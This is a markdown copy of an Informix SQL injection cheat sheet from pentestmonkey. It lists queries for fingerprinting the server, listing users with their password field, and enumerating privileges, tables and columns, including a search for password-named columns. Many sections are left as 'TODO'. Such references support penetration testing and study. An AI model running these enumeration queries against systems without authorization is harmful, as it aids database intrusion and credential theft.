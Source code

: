 # Informix Injection Cheat Sheet

_source: [http://pentestmonkey.net/cheat-sheet/sql-injection/informix-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/informix-sql-injection-cheat-sheet)_

## Version
```
SELECT DBINFO('version', 'full') FROM systables WHERE tabid = 1;
SELECT DBINFO('version', 'server-type') FROM systables WHERE tabid = 1;
SELECT DBINFO('version', 'major'), DBINFO('version', 'minor'), DBINFO('version', 'level') FROM systables WHERE tabid = 1;
SELECT DBINFO('version', 'os') FROM systables WHERE tabid = 1; — T=Windows, U=32 bit app on 32-bit Unix, H=32-bit app running on 64-bit Unix, F=64-bit app running on 64-bit unix
```

## Comments
```
select 1 FROM systables WHERE tabid = 1; — comment
```

## Current User
```
SELECT USER FROM systables WHERE tabid = 1;
select CURRENT_ROLE FROM systables WHERE tabid = 1;
```

## List Users
```
select username, usertype, password from sysusers;
```

## List Password Hashes
```
TODO
```

## List Privileges
```
select tabname, grantor, grantee, tabauth FROM systabauth join systables on systables.tabid = systabauth.tabid; — which tables are accessible by which users
select procname, owner, grantor, grantee from sysprocauth join sysprocedures on sysprocauth.procid = sysprocedures.procid; — which procedures are accessible by which users
```

## List DBA Accounts
```
TODO
```

## Current Database
```
SELECT DBSERVERNAME FROM systables where tabid = 1; — server name
```

## List Databases
```
select name, owner from sysdatabases;
```

## List Columns
```
select tabname, colname, owner, coltype FROM syscolumns join systables on syscolumns.tabid = systables.tabid;
```

## List Tables
```
select tabname, owner FROM systables;
select tabname, viewtext FROM sysviews  join systables on systables.tabid = sysviews.tabid;
```

## List Stored Procedures
```
select procname, owner FROM sysprocedures;
```

## Find Tables From Column Name
```
select tabname, colname, owner, coltype FROM syscolumns join systables on syscolumns.tabid = systables.tabid where colname like '%pass%';
```

## Select Nth Row
```
select first 1 tabid from (select first 10 tabid from systables order by tabid) as sq order by tabid desc; — selects the 10th row
```

## Select Nth Char
```
SELECT SUBSTRING('ABCD' FROM 3 FOR 1) FROM systables where tabid = 1; — returns 'C'
```

## Bitwise AND
```
select bitand(6, 1) from systables where tabid = 1; — returns 0
select bitand(6, 2) from systables where tabid = 1; — returns 2
```

## ASCII Value -> Char
```
TODO
```

## Char -> ASCII Value
```
select ascii('A') from systables where tabid = 1;
```

## Casting
```
select cast('123′ as integer) from systables where tabid = 1;
select cast(1 as char) from systables where tabid = 1;
```

## String Concatenation
```
SELECT 'A' || 'B' FROM systables where tabid = 1; — returns 'AB'
SELECT concat('A', 'B') FROM systables where tabid = 1; — returns 'AB'
```

## String Length
```
SELECT tabname, length(tabname), char_length(tabname), octet_length(tabname) from systables;
```

## If Statement
```
TODO
```

## Case Statement
```
select tabid, case when tabid>10 then "High" else 'Low' end from systables;
```

## Avoiding Quotes
```
TODO
```

## Time Delay
```
TODO
```

## Make DNS Requests
```
TODO
```

## Command Execution
```
TODO
```

## Local File Access
```
TODO
```

## Hostname, IP Address
```
SELECT DBINFO('dbhostname') FROM systables WHERE tabid = 1; — hostname
```

## Location of DB files
```
TODO
```

## Default/System Databases
```
These are the system databases:
sysmaster
sysadmin*
sysuser*
sysutils*
```
